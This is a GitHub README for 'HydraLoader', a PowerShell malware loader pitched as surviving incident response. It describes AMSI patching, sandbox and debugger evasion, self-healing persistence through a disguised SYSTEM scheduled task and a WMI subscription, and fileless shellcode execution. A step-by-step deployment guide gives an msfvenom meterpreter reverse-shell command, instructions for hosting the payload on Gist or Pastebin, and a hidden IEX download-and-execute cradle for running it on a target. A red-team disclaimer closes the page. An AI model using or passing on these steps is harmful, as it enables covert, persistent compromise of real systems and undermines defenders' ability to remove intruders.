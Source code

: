 <p align="center">
  <img src="https://i.imgur.com/lS836hA.png" alt="HydraLoader Logo" width="200"/>
</p>
<h1 align="center">
  <br>
  🐍 HydraLoader 🛡️
  <br>
</h1>

<h4 align="center">The process that refuses to die. A PowerShell loader built on a self-healing persistence engine, designed to survive and thrive even under active incident response.</h4>

<p align="center">
  <a href="https://github.com/ZeroEthical/HydraLoader/blob/main/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-blue.svg?style=for-the-badge" alt="License">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Language-PowerShell-blue.svg?style=for-the-badge&logo=powershell" alt="Language">
  </a>
    <a href="https://github.com/ZeroEthical">
    <img src="https://img.shields.io/badge/Author-ZeroEthical-purple?style=for-the-badge" alt="Author">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Maintained%3F-Yes-green.svg?style=for-the-badge" alt="Maintained">
  </a>
</p>

<p align="center">
  <a href="#-about-the-project">About</a> •
  <a href="#-key-features">Key Features</a> •
  <a href="#-architecture--flow">Architecture</a> •
  <a href="#-getting-started">Getting Started</a> •
  <a href="#-disclaimer">Disclaimer</a> •
  <a href="#-author">Author</a>
</p>

---

## 📖 About The Project

**HydraLoader** is a highly sophisticated and resilient PowerShell-based payload execution framework, designed for advanced penetration testing and red teaming operations. It employs a multi-layered approach to evasion, persistence, and in-memory execution, aiming to operate undetected in modern, highly monitored environments.

---

## ✨ Key Features

<details>
<summary>🧠 <strong>Evasion & Anti-Analysis</strong></summary>
<br>

-   **In-Memory AMSI Bypass**: Dynamically patches the Antimalware Scan Interface (AMSI) at runtime to neutralize script-based threat detection.
-   **Comprehensive Environment Checks**: Actively detects and evades analysis environments by checking for:
    -   **Debuggers**: Uses native `IsDebuggerPresent()` API calls.
    -   **Sandboxes**: Verifies system RAM, CPU core count, and uptime.
    -   **Analysis Tools**: Scans for common virtualization and analysis processes (e.g., Wireshark, Process Monitor, VMware/VirtualBox tools).
-   **Deep Obfuscation**: The entire script is heavily obfuscated, with critical strings (API functions, DLLs) Base64 encoded and a compacted code structure to deter static analysis.
</details>

<details>
<summary>🐍 <strong>The "Hydra" Persistence Engine</strong></summary>
<br>

HydraLoader employs a dual-headed, self-healing persistence mechanism to ensure long-term access and resilience against removal attempts.

-   **Method 1: Scheduled Task (Elevated Privileges)**: Creates a scheduled task disguised as a legitimate system process (`Microsoft Compatibility Appraiser`) that runs with `SYSTEM` privileges at logon.
-   **Method 2: WMI Event Subscription (Maximum Stealth)**: Establishes a permanent WMI event subscription that triggers on a timer. This method is extremely difficult to detect as it resides in the WMI repository, outside of standard auto-run locations.
-   **Self-Healing Capability**: On each execution, the framework checks if both persistence mechanisms are active. If one has been discovered and removed, the other automatically recreates it, ensuring the "Hydra" survives.
</details>

<details>
<summary>🚀 <strong>Payload Execution</strong></summary>
<br>

-   **"Fileless" In-Memory Operation**: The payload is downloaded directly into a memory buffer, decoded, and executed without ever touching the disk, minimizing the forensic footprint.
-   **AES-256 Decryption Framework**: Includes a function to decrypt payloads using AES-256 (CBC). This allows the payload to be stored and transmitted in an encrypted state, rendering it useless to network inspection tools. *(Note: Requires a pre-encrypted payload)*.
-   **Dynamic API Resolution**: Resolves all necessary Windows API functions dynamically at runtime, avoiding suspicious static import tables.
</details>

---

## ⚙️ Architecture & Flow

1.  **Initialization**: The AMSI bypass is executed instantly.
2.  **Evasion Checks**: The script performs all anti-analysis and anti-sandbox checks. If any fail, it terminates silently.
3.  **Persistence Check & Repair**: The Hydra engine verifies that both the Scheduled Task and WMI Subscription are in place. If not, it creates them.
4.  **Payload Delivery**: The framework downloads the payload from the configured URL directly into memory.
5.  **Decryption & Preparation**: The payload is Base64 decoded. If AES is enabled, it is then decrypted.
6.  **Execution**: The final payload is injected into memory and executed via stealthy Windows API calls.

---

## 🚀 How to Use This Beast 😏

This guide will walk you through preparing your payload, configuring HydraLoader, and deploying it on a target system.

### Step 1: Payload Preparation (Example with `msfvenom`)

First, you need to generate your shellcode. For this example, we'll create a simple reverse shell payload.

1.  **Generate Raw Shellcode**:
    Use a tool like Metasploit's `msfvenom` to create the raw shellcode.

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin
    ```
    > Replace `YOUR_IP` and `YOUR_PORT` with your listener's details.

2.  **Encode the Shellcode in Base64**:
    HydraLoader expects the payload to be Base64 encoded.

    ```powershell
    # In PowerShell
    $bytes = [System.IO.File]::ReadAllBytes("C:\path\to\shellcode.bin")
    [System.Convert]::ToBase64String($bytes) | Out-File shellcode_b64.txt
    ```
    > Copy the resulting Base64 string. You'll need it in the next step.

### Step 2: Host Your Payload

1.  **Host the Base64 Payload**:
    Paste the Base64 string you just copied into a file (e.g., `payload.txt`) and host it on a web server or a service like GitHub Gist, Pastebin, etc.
2.  **Get the Raw URL**:
    Make sure you have a direct, raw link to the file content. For example, a GitHub Gist raw URL looks like `https://gist.githubusercontent.com/user/gist_id/raw/payload.txt`.

### Step 3: Configure HydraLoader

Now, you need to configure the `MALWARE DECODED.ps1` script itself.

1.  **Update the Payload URL**:
    -   Find the `$cfg` hashtable at the beginning of the script.
    -   Locate the key `$cfg.o`. This holds the Base64 encoded URL of your payload.
    -   First, encode your raw payload URL in Base64:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("https://your-raw-payload-url.com/payload.txt"))
        ```
    -   Replace the existing value of `$cfg.o` with your new Base64 encoded URL.

### Step 4: (Optional) Configure AES Encryption for Maximum Stealth

If you want to add another layer of protection, you can encrypt your payload.

1.  **Generate a Key and IV**:
    You need a 32-byte (256-bit) key and a 16-byte (128-bit) IV. You can generate them in PowerShell:
    ```powershell
    # Generate a random 32-byte key
    $key = -join ((0..31) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })
    # Generate a random 16-byte IV
    $iv = -join ((0..15) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })

    Write-Host "Key: $key"
    Write-Host "IV: $iv"
    ```

2.  **Encrypt the Shellcode**:
    Use your favorite encryption script or tool (like CyberChef) with your generated Key and IV to encrypt your **raw** shellcode file (`shellcode.bin`). Then, Base64 encode the **encrypted** output.

3.  **Configure HydraLoader with Keys**:
    -   Base64 encode your Key and IV:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_32_BYTE_KEY_HERE"))
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_16_BYTE_IV_HERE"))
        ```
    -   Update `$cfg.r` (key) and `$cfg.s` (IV) in the script with these new Base64 values.

4.  **Activate Decryption in Script**:
    -   In the `MALWARE DECODED.ps1` script, find the payload handling section.
    -   Uncomment the three lines responsible for decryption:
        ```powershell
        # $k = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.r)); $iv = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.s))
        # $exec_buf = Expand-Stream -d $buf -k $k -iv $iv; if (-not $exec_buf) { exit }
        ```
        And comment out the line that bypasses it:
        ```powershell
        # $exec_buf = $buf
        ```

### Step 5: Deployment

With your payload prepared and HydraLoader configured, you're ready for deployment.

1.  **Set Up Your Listener**:
    Start your C2 listener (e.g., Metasploit's `multi/handler`) to catch the incoming connection.

2.  **Execute on Target**:
    Deliver and execute the `MALWARE DECODED.ps1` script on the target machine. You can use any standard execution method:
    ```powershell
    # Example: Direct execution
    powershell.exe -ExecutionPolicy Bypass -File ".\MALWARE DECODED.ps1"

    # Example: Remote download and execution (IEX cradle)
    powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://your-server/MALWARE%20DECODED.ps1')"
    ```
    On its first run, HydraLoader will set up its persistence mechanisms and then proceed with the payload execution. Subsequent runs will ensure persistence is maintained before executing the payload.

---

## ⚠️ Disclaimer

This tool is intended for authorized red teaming, security research, and educational purposes **only**. Unauthorized use of this framework against any system is illegal. The author assumes no liability and is not responsible for any misuse or damage caused by this program.

---

## 🙏 Acknowledgements

A special thanks to our friends in the Telegram community for providing the base code that inspired the creation of this project.

-   [@scarlettaowner](https://t.me/scarlettaowner)
-   [@viperzcrew](https://t.me/viperzcrew2)

---

## ✍️ Author

-   **ZeroEthical** - [GitHub](https://github.com/ZeroEthical) [Telegram](https://t.me/ZeroEthical)
-   
